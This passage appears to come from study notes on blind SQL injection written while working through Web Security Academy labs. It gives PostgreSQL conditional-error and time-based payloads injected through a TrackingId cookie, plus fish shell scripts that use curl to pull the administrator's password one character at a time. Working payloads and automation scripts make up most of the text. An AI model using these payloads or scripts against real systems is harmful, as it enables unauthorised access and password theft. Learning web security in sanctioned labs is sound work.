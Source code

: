 		for num in (seq 1 20)
			for l in (cat alphanum-case-extra.txt)
				set request (curl "https://ac121f501eea5f11808d0292003c00d2.web-security-academy.net/login" \
				-s \
				--cookie "TrackingId=AM7WKP6V4lOY0q7H'||(SELECT CASE WHEN SUBSTR(password,$num,1)='$l' \
					THEN to_char(1/0) ELSE NULL END \
					FROM users \
					WHERE username='administrator')||'" | \
				wc -c)
				if test $request -lt 1000
					set password $password$l
					echo $password
					break
				end
			end
		end
		```
***
### Time-based method

- Verify that the conditional method works (PostgreSQL)

		SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(3) ELSE NULL END

	- With a `concat` type of attack

			'||(SELECT CASE WHEN (1=0) THEN pg_sleep(3) ELSE NULL END)--

- Verify a username from a table with the conditional error method (PostgreSQL and concat attack type)

		'||(SELECT CASE WHEN (1=1) THEN pg_sleep(3) ELSE NULL END FROM users WHERE username='administrator')--

- Get password length for a specific username using conditional error method (PostgreSQL and concat attack type)

		'||(SELECT CASE WHEN length(password)>1 THEN pg_sleep(3) ELSE '' END FROM users WHERE username='administrator')--

- Get password for a specific username using conditional error method (PostgreSQL and concat attack type)

		'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN pg_sleep(3) ELSE NULL END FROM users WHERE username='administrator')--

	Example of script:
	```
	#!/usr/bin/fish

	set trueValue 3000000 
	set password ''

	for num in (seq 1 20)
		for l in (cat alphanum-case-extra.txt)
			set request (curl "https://acbc1f781ecd479f80810f4000ab0023.web-security-academy.net/filter?category=Lifestyle" \
			-s \
			--cookie "TrackingId=7tajrIKtZFAUDUDd'||(SELECT CASE WHEN SUBSTR(password,$num,1)='$l' \
				THEN pg_sleep(3) \
				ELSE NULL END \
				FROM users WHERE username='administrator')--" \
			-o /dev/null \
			-w "%{time_total}")
			if test $request -gt $trueValue
				set password $password$l
				echo $password
				break